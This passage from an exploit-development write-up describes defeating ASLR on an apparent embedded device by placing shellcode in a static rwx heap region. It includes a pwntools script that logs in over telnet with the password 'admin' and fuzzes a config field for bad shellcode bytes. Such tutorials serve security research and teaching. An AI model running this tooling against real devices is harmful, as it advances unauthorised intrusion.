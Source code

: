 We can defeat ASLR by storing our payload in the known, static **rwx** heap location, then overflow and redirect the program flow to it. This basically renders it as the **Return-to-Zero-Protection** scenario.

### Size and Bad Bytes Limitations

When trying to exploit a buffer overflow vulnerability it is important to identify the limitations of the shellcode that we can use. These are the questions that we need to answer before a reliable exploit can be created:

*   What is the size limitation of the shellcode?
*   What are the bad bytes?

By sending a sizeable payload, we can observe how many bytes arrive and are placed on the heap. This should tell us the maximum size of the consecutive bytes that we are working with.

Trying all possible bytes (0-255), one by one, allows us to deduce the bad ones that we should avoid in our final payload:

```
 1from pwn import *
 2
 3context.timeout=2
 4context.log_level = 'error'
 5
 6IP='192.168.1.128'
 7PASS='admin'
 8
 9avoid = []
10
11def login():
12    p = remote(IP,23)
13    p.sendlineafter('Password: ',PASS)
14    p.sendlineafter('GS> ','config')
15    return p
16
17def fuzz(byte):
18    p = login()
19    try:
20     p.sendlineafter('CONFIG> ',b'set manage_if A-'+byte+b'-B')
21     p.sendlineafter('CONFIG> ',b'get manage_if')
22     p.recv()
23     if not b'A-'+byte+b'-B' in p.recv() or not p.recv():
24         #print("Bad: ",repr(byte))
25         avoid.append(byte)
26    except:
27     pass
28    p.close()
29
30x=make_packer('all')
31for i in range(0,256):
32    fuzz(x(i))
33
34print(avoid)


```
